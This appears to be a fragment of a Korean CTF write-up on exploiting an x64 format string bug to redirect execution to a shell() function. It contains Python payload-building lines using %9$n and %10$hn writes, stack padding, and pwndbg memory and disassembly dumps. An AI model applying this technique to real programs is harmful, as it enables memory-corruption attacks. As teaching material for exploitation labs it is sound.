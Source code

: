 
일단 주소 표현을 위해 8바이트가 사용됨, 최소 6바이트
이를 해소하기 위해 추가적인 포맷스트링 인자가 넘어가게 할 수도 있지만, 글자 수 표현에서 번거로운 이슈가 많았어서 다른 방법을 찾아야 했음
다음과 같이 하위 주소에 대해서는 그대로 사용하고, 상위 주소의 대해서는 %n으로 처리하여 문제를 해결할 수 있음 
```python
payload+=b'%'+str(shell_high_order).encode()+b'c'  #b'%64c'
payload+=b'%9$n'

payload+=b'%'+str(shell_low_order-shell_high_order).encode()+b'c'   #b'%4604c'
payload+=b'%10$hn'
```

---

또한 x64에서는 바로 스택에 인자가 넘아가는 게 아니라 레지스터에 있는 값을 먼저 참조하기 때문에 원래 6번째 값을 사용해야 하지만, 실제로는 9번째, 혹은 스택의 상황에 따라 그 이상의 값을 사용해야 할 수도 있음
```python
payload+=b'%'+str(shell_high_order).encode()+b'c'  #b'%64c'
payload+=b'%9$n'

payload+=b'%'+str(shell_low_order-shell_high_order).encode()+b'c'   #b'%4604c'
payload+=b'%10$hn'
```

---

실제로 메모리 덤프를 확인해보면, 9(5+4)번째의 오프셋에 실제 주소가 들어있음을 확인할 수 있음
```sh
pwndbg> telescope 10
00:0000│ rsp 0x7ffe368dc530 ◂— 0x6e24392563343625 ('%64c%9$n')
01:0008│-0c8 0x7ffe368dc538 ◂— 0x3125633139333425 ('%4391c%1')
02:0010│-0c0 0x7ffe368dc540 ◂— 0x616161616e682430 ('0$hnaaaa')
03:0018│-0b8 0x7ffe368dc548 —▸ 0x7ffe368dc60a ◂— 0x40 /* '@' */
04:0020│-0b0 0x7ffe368dc550 —▸ 0x7ffe368dc608 —▸ 0x401167 (shell+1) ◂— mov rbp, rsp
05:0028│-0a8 0x7ffe368dc558 ◂— 0x0
... ↓        4 skipped
```

---

또한 스택값이 8의 배수가 되게 만들어줌
`payload+=b'a'*(8-len(payload)%8)`

이렇게 해도 x64에서는 스택정렬 이슈가 발생할 수 있는데, 8바이트 단위로 움직이는 스택에 대해서 함수를 호출, 종료하기 전에 16바이트 단위로 맞춰줘야 하는 이슈임
따라서 ret위치에 shell()을 바로 넣지 않고, ret위치에 다시 ret를 넣고 다음 호출을 shell()을 호출하게 만들면 됨
하지만 SFP 특성상 넣으려고 하는 글자의 길이를 늘릴 수는 있지만, 줄일 수는 없기 때문에 다른 방법을 모색해야 함

---

여기서 일반적으로 shell()을 사용한다고 하면, 당연히 `0x401166` 의 주소를 사용하는 경우가 많음
```sh
pwndbg> disassemble shell 
Dump of assembler code for function shell:
   0x0000000000401166 <+0>:	push   rbp
   0x0000000000401167 <+1>:	mov    rbp,rsp
   ...
   0x000000000040117b <+21>:	ret    
End of assembler dump.
```
